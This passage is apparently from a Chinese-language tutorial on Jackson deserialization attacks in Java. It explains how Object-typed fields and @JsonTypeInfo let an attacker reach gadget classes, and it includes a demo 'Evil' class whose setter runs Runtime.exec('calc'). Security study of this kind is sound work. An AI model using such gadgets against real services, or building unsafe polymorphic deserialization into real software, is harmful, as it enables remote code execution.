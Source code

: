 运行即可弹出计算器

[![](assets/1701606625-9d05007c0e6fa23f18d68bae9077d9e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110003252-a0e57aea-7f1d-1.png)

### 属性中有 Object 类时

因为 Object 是任意类型的父类 因此扩大了我们的攻击面 我们只需要在目标服务端中存在的且构造函数或 setter 方法存在漏洞的类即可进行攻击利用 例如 存在一个恶意类 Evil 在其构造函数或者是 setter 方法中存在任意代码执行漏洞

```plain
package jackson;

public class Evil {
    public String cmd;

    public void setCmd(String cmd) {
        this.cmd = cmd;
        try {
            Runtime.getRuntime().exec("calc");
        }
        catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

然后我们将其写到 json 中

```plain
package jackson;

import com.fasterxml.jackson.annotation.JsonTypeId;
import com.fasterxml.jackson.annotation.JsonTypeInfo;

public class Hacker {
    public String skill = "moyu";
}

class Person2{
    public String name;
    public int age;
    @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
    public Sex sex;

    public Person2(){
        System.out.println("person 构造函数");
    }

    public Object object;


    @Override
    public String toString(){
        return String.format("Person2.age=%d,Person2.name=%s,%s",age,name,object == null ? "null" : object);
    }
}
```
